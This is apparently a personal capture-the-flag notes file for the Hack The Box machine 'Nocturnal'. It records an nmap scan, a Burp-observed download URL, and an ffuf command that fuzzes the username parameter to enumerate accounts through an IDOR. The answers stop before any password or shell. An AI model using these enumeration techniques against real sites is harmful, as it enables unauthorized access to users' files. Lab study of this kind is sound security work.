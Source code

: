 # Nocturnal
- https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html
- https://www.youtube.com/watch?v=tjA3sXsnPqw

## Setup


## Guided Mode Questions
1. How many open TCP ports are listening on Nocturnal?
```
2

From NMAP scan:

┌──(root㉿kali)-[/home/jacob/Desktop/Nocturnal]
└─# ./nmap.sh Nocturnal 10.129.232.23
Running nmap scan on 10.129.232.23 with output to Nocturnal...
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 07:53 AEST
Nmap scan report for 10.129.232.23
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/                    
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                           
                                                                                  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                      
Nmap done: 1 IP address (1 host up) scanned in 204.48 seconds                     
Scan completed successfully.                                                      
Output files created: Nocturnal.nmap, Nocturnal.gnmap, Nocturnal.xml
```

2. Which HTTP GET parameter specifies the user's name when downloading the uploaded files in the web application on port 80?
```
username

After registering, logging in, uploading a file, and then downloading that file back and proxying it with Burp, you can see the URL: GET /view.php?username=lumlum&file=fakefile.pdf HTTP/1.1

```

3. What's the name of the other user registered in this application?
```
amanda

──(root㉿kali)-[/home/jacob/Desktop/Nocturnal]
└─# ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.doc' -b 'PHPSESSID=ul48kitmih0c7v21am4ohekq5g' -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -fr 'User not found'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.doc
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Cookie: PHPSESSID=ul48kitmih0c7v21am4ohekq5g
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: User not found
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 203ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 200ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 185ms]
:: Progress: [10177/10177] :: Job [1/1] :: 225 req/sec :: Duration: [0:00:47] :: Errors: 0 ::
```

4. What is amanda user's password for this web application?
```

```

## NOTES
- I never would have tried to find an IDOR in the username in the URL because I assumed I was never going to accurately brute a filename as well. If I had only tried, I would have seen that the website happens to tell me what files are available. Send the request to Repeater, and then 'render' the Response and play.
- `.odt` files can be read as is like a .txt or .pdf. Unpacking them and diving into it's file contents is not the thing to do
